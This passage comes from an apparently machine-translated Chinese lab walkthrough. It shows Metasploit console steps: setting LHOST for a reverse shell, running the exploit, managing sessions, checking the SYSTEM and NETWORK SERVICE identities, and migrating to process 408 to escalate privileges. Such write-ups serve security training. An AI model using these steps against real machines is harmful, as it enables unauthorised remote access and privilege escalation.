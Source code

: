 并将 LHOST 设置为我的 IP 地址

```
set LHOST 10.10.14.36
```

你可以在这里查看你的

![Screenshot-2020-04-28-at-16.13.44](img/77a3b8a47372123bb1d259d50223eaa8.png)

然后，我使用

```
exploit
```

![Screenshot-2020-04-28-at-16.13.57](img/ad402c8c363a351efc34722046670cd4.png)

这证实了利用已经成功，但我仍然没有得到一个外壳。我检查了会话

```
sessions -l
```

我应该的

```
NT AUTHORITY\SYSTEM
```

![Screenshot-2020-04-28-at-16.16.36](img/0ae588984362346ae5999c7d1ba7213b.png)

现在不是这样了，所以我回到这个话题

```
sessions -i 1
```

![Screenshot-2020-04-28-at-16.38.45](img/89712790261a68133af7901b1b427dea.png)

我检查 **getuid** 并取回 **NT AUTHORITY\SYSTEM** 。我在目标系统上得到一个标准 shell，并检查我在机器上是谁。我拿回了 **NT 权限\网络服务**，这不是我想要的！

我退出这个 shell 并检查进程。我可以看到我在这台机器上有管理员权限。我只需要迁移到另一个进程——我就是这样做的

```
migrate 408
```
